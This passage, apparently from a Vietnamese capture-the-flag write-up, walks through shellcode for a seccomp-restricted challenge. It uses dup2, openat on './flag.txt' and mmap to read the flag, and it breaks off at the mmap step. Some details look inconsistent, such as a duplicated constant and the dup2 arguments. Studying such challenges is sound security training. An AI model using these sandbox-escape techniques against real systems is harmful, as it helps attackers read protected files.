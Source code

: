 - cuối cùng là nó sẽ thực thi shellcode của ta

```c
call_shellcode((__int64 (*)(void))v8);
```

- ở bài này nó không filter ```openat``` nên ta có thể dùng ```openat``` thay cho ```open``` , ta sẽ sử dụng ```mmap``` để thay thế ```read``` , ```pread64``` ....  

- trước hết ta sẽ chuyển fd của nó sang 1 fd được cho phép , ta chỉ cần sử dụng ```dup2``` ở trường hợp này :

syscall của nó là 	0x21 , oldfd sẽ là 1 và newfd là 1 số >= 0x3e80x3e8
```cs
unsigned int oldfd, unsigned int newfd
```

đơn giản là như sau :


```cs
mov rax,0x21
mov rdi,1
mov rsi,0x3e9
syscall
```

- tiếp theo sẽ là openat : 

nếu filename là đường dẫn tuyệt đối thì ```dfd``` sẽ bị bỏ qua , còn tương đối thì nó sẽ là -100 , flags và mode ta sẽ để là 0 

```cs
	int dfd, const char *filename, int flags, umode_t mode
```

nó sẽ trông như sau : 

```c
mov rax,0x101  // syscall number
mov rdx,29816  // setup tx
push rdx
movabs rsi,8371742425456455470 // ./flag.t little endian
push rsi
xor rdx,rdx
xor rsi,rsi
mov rdi,-100  //dfd
mov rsi,rsp  // path 
syscall
```

- tiếp theo là ```mmap``` 

address ta sẽ setup là null , rsi sẽ là số byte cần đọc từ flag.txt , rdx : prot sẽ là 1 (PROT_READ) , r10 : flag là 2 (MAP_PRITVATE) , r8 là fd (được setup bởi dup2) , r9 là offset ta sẽ để là 0

```cs
// rdi,rsi,rdx,r10,r8,r9
unsigned long addr, unsigned long len, unsigned long prot, unsigned long flags, unsigned long fd, unsigned long off
```
